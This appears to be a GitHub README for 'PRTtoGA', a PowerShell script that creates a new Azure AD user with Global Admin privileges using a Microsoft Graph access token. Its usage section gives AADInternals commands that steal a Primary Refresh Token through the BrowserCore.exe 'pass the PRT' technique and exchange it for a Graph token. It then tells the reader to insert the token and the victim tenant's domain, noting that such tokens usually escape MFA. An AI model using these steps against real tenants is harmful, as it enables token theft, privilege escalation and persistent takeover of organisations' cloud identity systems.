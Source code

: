 # PRTtoGA
PRTtoGA is a simple PS1 script for using Microsoft Graph Access Token (Usually not MFA enforced) to create a new user and set the user with Global admin privileges. 

##Usage
Get the appropriate Access Token using AADinternals (PASS THE PRT)
```
#Get the PRT using the BrowserCore.exe technique 
$prtToken = Get-AADIntUserPRTToken

#Get the AccessToken for MSGRAPH
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

```
**Then change the "$accessToken"variable to the received access Token. 
Dont forget to change the example.com to the tenants actual domain! **